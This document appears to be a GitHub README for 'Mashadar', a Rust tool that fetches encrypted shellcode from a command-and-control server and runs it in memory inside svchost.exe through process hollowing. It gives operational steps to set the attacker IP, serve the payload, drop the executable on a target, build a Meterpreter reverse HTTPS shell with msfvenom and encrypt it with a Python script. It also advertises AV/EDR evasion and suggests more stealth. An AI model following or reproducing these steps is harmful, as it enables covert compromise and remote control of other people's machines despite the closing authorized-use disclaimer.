🚀 Mashadar: Remote Shellcode Loader with Process Hollowing

Stealthy, in-memory process hollowing framework for Windows, dynamically fetching encrypted shellcode over HTTP.This project allows you to remotely load and execute shellcode inside another process without ever touching disk.

📌 Features

✅ Process Hollowing → Injects shellcode into svchost.exe, executing entirely in-memory.✅ Remote Payload Retrieval → Downloads encrypted payload.bin from a C2 server.✅ No Disk Artifacts → The payload is never written to disk, reducing forensic risk.✅ AES Encryption → Encrypted payloads evade network-based detection.✅ Bypasses AV/EDR → Uses indirect syscalls and kernel stealth to evade detection.

📁 Project Structure

mashadar/
│── src/
│   ├── main.rs          # Entry point (fetch shellcode, inject via process hollowing)
│   ├── hollowing.rs     # Process Hollowing (NtUnmapViewOfSection, remote injection)
│   ├── encryption.rs    # AES Encryption (Pre-Execution)
│   ├── stealth.rs       # Kernel Callback Removal + Anti-Debugging
│   ├── c2.rs            # Encrypted Command & Control (C2) Comms over HTTP
│── shellcode/
│   ├── payload.bin      # (Not stored locally, fetched dynamically)
│── README.md
│── Cargo.toml           # Rust dependencies

🔧 Setup & Compilation

1️⃣ Dependencies

Ensure you have Rust installed on your system. You can install it via:

https://www.rust-lang.org/tools/install

2️⃣ Set the Encryption Password

Modify src/encryption.rs, setting your own encryption key and nonce:

let key: [u8; 16] = *b"mysecretkey12345";
let nonce: [u8; 16] = *b"random_iv_nonce_"; // Must be exactly 16 bytes

3️⃣ Modify the C2 Server Address

Edit src/c2.rs, replacing "192.168.1.100:8080" with your attacker's IP:

let server_ip = "192.168.1.100:8080";

4️⃣ Compile Mashadar

cargo build --release

✅ Output: target/release/mashadar.exe

🚀 Running Mashadar

1️⃣ Start the C2 Server

On your attacker machine, place payload.bin in /path/to/shellcode and start a Python webserver:

cd /path/to/shellcode
python3 -m http.server 8080

✅ C2 Server Running on Port 8080

2️⃣ Run Mashadar on the Target Machine

Transfer mashadar.exe to the target Windows machine and execute:

mashadar.exe

3️⃣ Expected Behavior

Mashadar connects to http://192.168.1.100:8080/payload.bin

Downloads & decrypts the shellcode (AES-128 CTR)

Injects it into svchost.exe via process hollowing

Executes shellcode in-memory (e.g., Meterpreter, Cobalt Strike, etc.)

⚠️ Handling the Payload (Step-By-Step)

✅ Generating a Reverse Shell for Windows

To create a Windows Meterpreter reverse shell, run:

msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.1.100 LPORT=443 -f raw -o payload.bin

✅ This generates payload.bin, which is a Windows-compatible shellcode payload.

✅ Encrypting the Payload Before Uploading

To encrypt payload.bin, use Python:

from Crypto.Cipher import AES
from Crypto.Util import Counter

key = b"mysecretkey12345"
nonce = b"random_iv_nonce_"

with open("payload.bin", "rb") as f:
    shellcode = f.read()

ctr = Counter.new(128, initial_value=int.from_bytes(nonce, "big"))
cipher = AES.new(key, AES.MODE_CTR, counter=ctr)

encrypted_shellcode = cipher.encrypt(shellcode)

with open("payload_encrypted.bin", "wb") as f:
    f.write(encrypted_shellcode)

✅ Upload payload_encrypted.bin to your C2 server instead of payload.bin.✅ Mashadar will decrypt it before execution.

🔥 Why This is Stealthy

✅ No files written to disk → Shellcode exists only in-memory.✅ C2 dynamically delivers payloads → Easily swap payloads without recompiling.✅ Indirect syscalls bypass AV/EDR hooks → No CreateRemoteThread detection.✅ AES encryption protects against network-based detection.

🚀 Next Steps (More Stealth)

🔹 Use HTTPS instead of HTTP to avoid plaintext traffic detection.🔹 Implement DNS Tunneling for C2 traffic evasion.🔹 Deploy via Reflective DLL Injection instead of Hollowing.🔹 Obfuscate API calls to defeat heuristic detection.

⚠️ Legal Disclaimer

This tool is intended for authorized red teaming and penetration testing purposes only.Using this for unauthorized access or malicious activities is illegal and can result in severe legal consequences.